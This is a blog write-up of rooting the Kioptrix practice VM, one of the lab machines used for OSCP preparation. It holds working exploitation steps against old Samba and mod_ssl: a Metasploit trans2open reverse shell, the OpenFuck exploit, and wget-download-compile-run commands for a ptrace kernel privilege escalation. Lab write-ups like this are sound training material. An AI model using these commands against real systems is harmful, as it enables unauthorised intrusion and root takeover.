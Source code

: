 ```yaml
---
layout: post
title: Kioptrix
---
```

Hello!

After a while I'm back with another writeup. While I wasn't publishing writeups I wasn't idle. In the meantime I managed to get my OSCP certificate, which I'll desribe in a seperate post.

Today I decided to crack an old one: Kioptrix. It is known in the OSCP community for being similar to the lab machines from the PWK course.

From the VM's description:
>This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

I have found two ways of rooting this machine. First one is more reliable and give root privileges in one run. Second one allowed to get a limited shell first, and then escalate privileges. It is less reliable because shell had tendencies to disconnect after a couple of minutes. Still it is worth knowing.

## Recon
Let's start with some nmap:
```bash
# nmap 192.168.0.100 -sT -sV -O -n
-- snip --
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
-- snip --
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
-- snip --
```

## Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
First way of rooting Kioptrix is a remote code execution in Samba. Samba is always worth checking out during a pentest. It has a long history of big one-shot vulnerabilities and commong misconfigurations that allow to gain valuable intel on the machine. This time it allows to win almost prematurely.

First I used a Metasploit module to obtain running Samba version:
```bash
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(scanner/smb/smb_version) > info

       Name: SMB Version Detection
     Module: auxiliary/scanner/smb/smb_version
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  RHOSTS                      yes       The target address range or CIDR identifier
  SMBDomain  .                no        The Windows domain to use for authentication
  SMBPass                     no        The password for the specified username
  SMBUser                     no        The username to authenticate as
  THREADS    1                yes       The number of concurrent threads

Description:
  Display version information about each system

msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.0.100
RHOSTS => 192.168.0.100
msf auxiliary(scanner/smb/smb_version) > run

[*] 192.168.0.100:139     - Host could not be identified: Unix (Samba 2.2.1a)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Googling Samba version 2.2.1a shows that there is a known remote buffer overflow in trans2open() function(https://www.exploit-db.com/exploits/7).

The easiest way was to use another Metasploit module:
```bash
msf exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.0.100    yes       The target address
   RPORT  139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.0.101    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.0.101:4444 
[*] 192.168.0.100:139 - Trying return address 0xbffffdfc...
[*] 192.168.0.100:139 - Trying return address 0xbffffcfc...
[*] 192.168.0.100:139 - Trying return address 0xbffffbfc...
[*] 192.168.0.100:139 - Trying return address 0xbffffafc...
[*] Command shell session 9 opened (192.168.0.101:4444 -> 192.168.0.100:32780) at 2019-05-12 00:08:18 +0200

whoami
root
```

Game over :)

## Mod_ssl remote buffer overflow

Another way to break the machine is a mod_ssl vulnerability. Namp scan indicates that it runs in version 2.8.4. So it should be vulnerable do to a 'OpenFuck V2' attack. Proof of concept can be found on [ExploitDB](https://www.exploit-db.com/exploits/764). On modern systems there can be a couple of problems compiling the exploit. They can be fixed by following an excellent post on [Paulsec](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/). My final version of exploit can be found [here](/downloads/openfuck.c).

There are a lot of versions of running the exploit depending on the system and Apache version of attacked machine. I decided to first search the know list for Apache version obtained from nmap. There were two matches that also matched Red Hat Linux distribution
```bash
root@kali:~/Documents/kioptrix# ./OpenFuck | grep '1.3.20'
-- snip --
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
-- snip --
```

I chose second one and ran the exploit which returned me a shell:
```bash
root@kali:~/Documents/kioptrix# ./OpenFuck 0x6b 192.168.0.100
-- snip ==
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
--01:02:24--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... 
dl.packetstormsecurity.net: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$ 
bash-2.05$ whoami
whoami
apache
```

As can be seen on the above listing, the exploit also tries to escalate privleges by downloading ptrace-kmod.c file. It obviously fails because of the fact that my Kioptrix instance is not connected to the internet. Fortunately it can be also done manually by hosting ptrace-kmod.c file on the attacking machine.
```bash
bash-2.05$ cd /tmp 
cd /tmp
bash-2.05$ wget http://192.168.0.101/ptrace.c
wget http://192.168.0.101/ptrace.c
-- snip --
bash-2.05$ gcc ptrace.c -o ptrace
gcc ptrace.c -o ptrace
ptrace.c:185:27: warning: no newline at end of file
bash-2.05$ chmod +x ptrace
chmod +x ptrace
bash-2.05$ ./ptrace
./3
[+] Attached to 1539
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami 
root
```

Game over #2 :)
